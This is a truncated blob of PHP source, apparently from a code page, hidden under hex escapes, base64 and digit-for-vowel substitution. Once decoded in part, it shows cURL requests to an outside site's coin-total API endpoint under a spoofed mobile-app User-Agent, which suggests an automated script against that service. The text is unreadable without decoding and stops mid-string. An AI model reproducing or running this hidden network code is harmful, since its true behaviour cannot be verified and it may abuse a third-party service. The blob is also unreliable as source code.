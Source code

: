 \x49\x69\x6c\x37\x44Qo\x31Y\x32\x67\x79J\x48Azd\x44\x52o\x4c\x69\x4abIi\x34k\x4e\x47oy\x4ci\x4cig\x4bIi\x4c\x69RwM3Q0\x61C4i\x58SB\x6a\x4dj\x52uJ\x48I\x31\x5aC\x41\x67\x49C\x416\x49C\x49\x75\x4aHQz\x63ms0\x63\x794k\x59\x7aI\x30\x62\x69\x34\x6b\x63jsNCiB\x39DQ\x70\x39\x44\x51\x6f1\x62H\x4d1e\x77\x30K\x4eWN\x6f\x4d\x69\x4a\x62\x49V0\x67\x49i4k\x61z\x4eu\x4e\x47\x35nL\x69\x4a\x55\x4e\x58J\x71MW\x51\x30\x49Gs\x31cz\x46\x73\x4d\x57g\x78biIuIg0K\x49j\x73NC\x6aV4\x4e\x48\x51\x37\x44Qp\x39DQ\x70m\x4d2\x35j\x64\x44\x51y\x62iBj\x4d\x6aR\x75K\x43\x51zczVy\x4e\x47\x51\x70\x65w\x30KJDFy\x63\x6a\x30\x78\x63n\x49\x78e\x53g\x69D\x51\x6fi\x4c\x43\x49\x4aI\x69\x6b\x37DQ\x6fkYjJke\x540iM3\x4d1\x63l80ZD0\x69L\x69Q\x7ac\x7aVyNG\x517DQog\x49\x43AkYz\x4ey\x62\x441\x6aM3Js\x58\x7aRu\x4e\x48Qo\x4bTsN\x43mM\x7a\x63\x6d\x78fc\x7aV\x30\x4d\x6e\x420X\x7a\x46\x79\x63j\x465\x4bCRj\x4d3\x4as\x4cD\x46ycj\x46\x35K\x41\x30\x4b\x49\x43A\x67Q\x31VST\x459\x51\x56\x469SR\x56\x52\x56\x55\x6b5\x55U\x6b\x46\x4fU\x30Z\x46\x55\x6a\x30+d\x48I\x7aNS\x77\x4eC\x69\x41g\x49ENV\x55k\x78\x50\x55FRfV\x56J\x4dPT4\x67Im\x680dHB\x7aOi8\x76d3d\x33L\x6d\x51y\x62\x6elj\x4dX\x4eo\x4cm\x4d\x79b\x53\x38x\x63\x44Q\x76Z\x7aV\x30\x58\x7a\x4e\x7a\x4eXJ\x66\x64\x44J\x30\x4d\x57\x78f\x59zI0\x62\x69\x35\x77\x61HA\x69LA\x30\x4b\x49C\x41\x67Q1V\x53\x54\x459QV\x46\x39U\x53U1\x46\x541VUPT5v\x4d\x43\x77N\x43\x69\x41gIEN\x56\x55k\x78P\x55\x46Rf\x55E9T\x56\x44\x30+dHIzN\x53w\x4e\x43iA\x67I\x45N\x56Uk\x78\x50\x55F\x52fU\x459\x54\x56EZJ\x52U\x78\x45\x55\x7a0+ICR\x69\x4dmR5L\x410K\x49C\x41\x67Q1\x56S\x54E\x39\x51VF9\x49VF\x52Q\x53\x45\x56\x42REVS\x50T4\x67I\x6b\x4d\x79bn\x51\x31\x62n\x51t\x56\x48l\x77NTo\x67\x4dX\x42wbDRjM\x58\x510Mm4veC\x313\x643\x63t\x5ajJyb\x53\x30zc\x6dw\x31bm\x4d\x79\x5a\x44\x56k\x49iwiQ\x57\x4ej\x4eX\x42\x30\x4cUV\x75\x59z\x4a\x6bN\x47\x35\x6eOiB\x6e\x65\x6aR\x77I\x69\x77\x69VXM\x31ci1B\x5az\x56\x75\x64\x44ogM\x6dtodHRw\x4c\x328\x75\x4e\x6aA\x75\x4d\x43\x49s\x44Qog\x49\x43\x42D\x56\x56J\x4dT1\x42UX1\x4eT\x54F9W\x52\x56\x4a\x4a\x52\x6c\x6cQR\x55\x56\x53\x50T\x34\x77\x4cCkpOyRyN\x58Mz\x62HQ\x39Y\x7aNybF\x38\x31eDVj\x4b\x43R\x6a\x4d3J\x73\x4b\x54\x73\x4e\x43\x6d\x4dz\x63\x6d\x78f\x592\x77y\x63\x7a\x55\x6f\x4aGMzcmw\x70\x4f\x77\x30\x4b\x63jV\x30\x4d3JuJH\x49\x31c\x7aN\x73\x64Ds\x4e\x43\x6e0\x4eC\x6dYzb\x6dN\x30\x4eDJu\x49\x47w\x79Z\x7aR\x75K\x43R\x75\x4d\x57\x30\x78LC\x511b\x54E\x30b\x43\x77\x6bM\x33M\x31c\x6a\x52kKXsNC\x69\x51\x78cnI9\x4dX\x4a\x79\x4d\x58koI\x670\x4b\x49\x69\x77\x69CS\x49\x70O\x770\x4b\x4aGg\x39N\x58\x68w\x62D\x4ak\x4eSg\x69\x44Qo\x69\x4cH\x4e0\x63\x6c9\x79\x4eXB\x73M\x57\x4d\x31\x4b\x43\x51\x78cn\x49s\x49\x69\x49\x73\x49\x6c\x56z\x4e\x58\x49\x74QWc1b\x6eQ6\x49DJr\x61HR0c\x43\x39v\x4c\x6a\x59w\x4cj\x41pIik\x70\x4f\x77\x30\x4b\x4aGI\x79\x5a\x48k\x39\x49jVtMT\x52\x73PS\x49u\x4a\x44Vt\x4d\x54\x52sL\x69\x49\x6dM\x33\x4d\x31\x63m4xbTU\x39\x49i\x34kb\x6a\x46\x74MS\x34\x69\x4a\x6e\x4dyYz\x51xbF80\x5a\x440i\x4c\x69Q\x7a\x63z\x56y\x4eG\x517\x44\x51ogIC\x41\x6bYz\x4ey\x62\x44\x31jM3\x4as\x58zRuNH\x51o\x4b\x54sN\x43m\x4dzc\x6dx\x66czV0\x4dnB\x30\x58\x7aFyc\x6a\x46\x35\x4bC\x52\x6aM\x33\x4as\x4cD\x46\x79\x63jF\x35\x4b\x41\x30\x4bI\x43\x41\x67\x51\x31\x56\x53TE\x39\x51VF\x39SR\x56RVU\x6b5\x55\x55\x6bF\x4fU0Z\x46\x55j\x30+dHI\x7aN\x53\x77NC\x69\x41\x67\x49ENVU\x6b\x78\x50\x55FRfVV\x4aMPT\x34\x67\x49m\x68\x30d\x48B\x7a\x4f\x698\x76d3\x643L\x6dQ\x79\x62\x6elj\x4d\x58NoL\x6dMyb\x538x\x63D\x51\x76\x63\x6a\x56\x6eNH\x4e0\x63\x6aF0NDJ\x75LnB\x6f\x63\x43\x49\x73DQ\x6f\x67I\x43\x42D\x56VJMT\x31BU\x58\x31\x52\x4a\x54UVP\x56\x56\x51\x39\x50m8w\x4cA\x30\x4b\x49\x43Ag\x511V\x53\x54\x459QV\x469QT\x31N\x55PT\x35\x30\x63\x6aM1\x4cA0KI\x43\x41\x67\x51